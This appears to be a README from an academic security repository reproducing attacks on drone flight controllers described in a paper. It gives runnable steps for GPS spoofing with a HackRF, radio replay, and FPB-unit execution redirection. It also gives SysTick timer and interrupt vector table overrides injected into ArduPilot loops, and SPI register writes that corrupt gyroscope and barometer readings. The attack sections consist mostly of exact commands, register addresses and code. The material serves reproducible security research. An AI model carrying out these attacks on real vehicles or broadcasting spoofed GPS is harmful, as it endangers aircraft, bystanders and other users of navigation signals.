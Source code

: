 # Attack cases mentioned in the paper
Code for conducting attacks mentioned in the paper. We have 2 zero-day attacks which have been reported to respective authorities as well. 

## GPS Spoofing
### Prerequisite
1) You need to have a software-defined radio like <a href="https://greatscottgadgets.com/hackrf/one/" target="_blank">HackRF One</a> which could simulate GPS L1 signal. 

2) Install HackRF package
```bash
sudo apt-get update
sudo apt-get install gnuradio
sudo apt-get install gqrx-sdr
sudo apt-get install hackrf
```

3) Plug in your HackRF

Verify whether it is working or not
```bash
hackrf_info
```

4) Install <a href="https://github.com/osqzss/gps-sdr-sim" target="_blank"> GPS position simulator</a>


### How to execute it?
1) You need to specify the GPS satellite constellation through a GPS broadcast ephemeris file. The daily GPS broadcast ephemeris file (brdc) is a merge of the individual site navigation files into one. The archive for the daily file is:ftp://cddis.gsfc.nasa.gov/gnss/data/daily/

2) Find the latest brdc file for navigation data creation

3) When you use <a href="https://github.com/purseclab/M2MON/tree/main/attacks/GPS_spoofing" target="_blank"> brdc3540.14n</a> as an ephemeris file, you can generate GPS messages by using the command in the below. 
```bash
./gps-sdr-sim -b 8 -e brdc3540.14n -l 31.286502,121.032669,100
```

4) gpssim.bin will be created and the file needs to transferred

5) Spoof the GPS messages 
```bash
hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 0
```

## Radio replay attack
### Prerequisite
1) Install HackRF package
```bash
sudo apt-get update
sudo apt-get install gnuradio
sudo apt-get install gqrx-sdr
sudo apt-get install hackrf
```

2) Plug in your HackRF

Verify whether it is working or not
```bash
hackrf_info
```

Tune to a FM radio station as a test
```bash
gqrx
```

### How to conduct the radio replay attack?
1) Record target radio signal by using <a href="https://github.com/purseclab/M2MON/blob/main/attacks/radio_replay_attack/" target="_blank">this</a>
```bash
./radio_replay_attack/record.grc
```

2) Replay the recorded radio signal by using <a href="https://github.com/purseclab/M2MON/blob/main/attacks/radio_replay_attack/" target="_blank">this</a>
```bash
./radio_replay_attack/replay.grc
```


## FPB (Flash Patch and Breakpoint Unit) attack
### Prerequisite
1) Your main System-on-Chip must be equipped with a FPB unit. We used <a href="https://www.st.com/en/microcontrollers-microprocessors/stm32f427-437.html" target="_blank">STM32F427</a>.

2) RTOS can execute shell commands (e.g., mw and mh).

### How to execute it?
1) Connect NSH (NuttShell) on a command window
```bash
module load nsh
nsh start
```
2) Activate the FPB unit and execute a new command
```bash
mw 0xE0002004=0x20000000 1
mh 0x20000014=0xe7fe 1
mw 0xE0002000=0x1 1
mw 0xE000201C=0x0807efb9 1
```

## Timer attack
### Prerequisite
1) You need to know a value of the SysTick register (STK_LOAD). You can probably find such a register address on datasheet or source code of the RTOS (NuttX).

### How to conduct the timer attack?
1) Insert the code snippet in the below to a control loop (e.g., Copter::one_hz_loop() in ArduPilot)
```bash
// 0xE000E014: STK_LOAD’s register address
volatile unsigned int *Timer_attack = (volatile unsigned int *) 0xE000E014;

// Increasing the value to 2X of the original value (0x2903F) set by the RTOS
*Timer_attack = 335998;
```

2) You can confirm the effect of the timer attack after booting.
<img src="https://github.com/purseclab/M2MON/blob/main/attacks/timer_attack/result.png">

## IRQ override attack
### Prerequisite
1) You need to know a value of the vector table offset register (VTOR). You can probably find such a register address on datasheet or source code of the RTOS (NuttX).

### How to conduct the IRQ attack?
1) Insert the code snippet in the below to a control loop (e.g., Copter::one_hz_loop() in ArduPilot)
```bash
// 0xE000ED08: VTOR’s register address
volatile unsigned int *VTOR_attack = (volatile unsigned int *) 0xE000ED08;
::printf("Original VTOR:0x%x\n", *VTOR_attack);

// Overriding VTOR
// 3758153728: 0xE000E000 in hex
*VTOR_attack = 3758153728;
::printf("Modified VTOR:0x%x\n", *VTOR_attack);
```

2) You can confirm the effect of the IRQ attack after booting.
<img src="https://github.com/purseclab/M2MON/blob/main/attacks/IRQ_attack/result.png">

## Gyroscope attack
### Prerequisite
1) Connect NSH (NuttShell) on a command window
```bash
module load nsh
nsh start
```

2) We used <a href="https://ardupilot.org/mavproxy/docs/modules/devop.html" target="_blank">Direct Comms with SPI/I2C bus</a> in ArduPilot.
You can learn how to use the Direct Comms with SPI/I2C bus from the documentation. You must know the following information to conduct this attack: 1) device name, 2) bus number, and 3) address.
We got such information from NuttX source code. For example, if you want to read data from SPI bus, you can execute a command in the below.

```bash
devop read spi (1)name (2)bus (3)address (4)regstart (5)count
(1) Where name= device name
(2) bus=spi bus #
(3) address=device address
(4) regstart=register to start at 
(5) count=number of bytes to write
```

### How to conduct the gyroscope attack?
1) Write data to a control register of the MPU9250 gyroscope sensor.

```bash
devop write spi mpu9250 1 4 26 1 11
```

2) You might see bad gyroscope sensor data.

## Barometer attack
### Prerequisite
1) Connect NSH (NuttShell) on a command window
```bash
module load nsh
nsh start
```

2) We used <a href="https://ardupilot.org/mavproxy/docs/modules/devop.html" target="_blank">Direct Comms with SPI/I2C bus</a> in ArduPilot.
You can learn how to use the Direct Comms with SPI/I2C bus from the documentation. You must know the following information to conduct this attack: 1) device name, 2) bus number, and 3) address.
We got such information from NuttX source code. For example, if you want to read data from SPI bus, you can execute a command in the below.

```bash
devop read spi (1)name (2)bus (3)address (4)regstart (5)count
(1) Where name= device name
(2) bus=spi bus #
(3) address=device address
(4) regstart=register to start at 
(5) count=number of bytes to write
```

### How to conduct the barometer attack?
1) Read data from registers of the MS5611 barometer sensor.

```bash
devop read spi ms5611_int 1 3 0 255
```

2) You might see bad barometer sensor data.
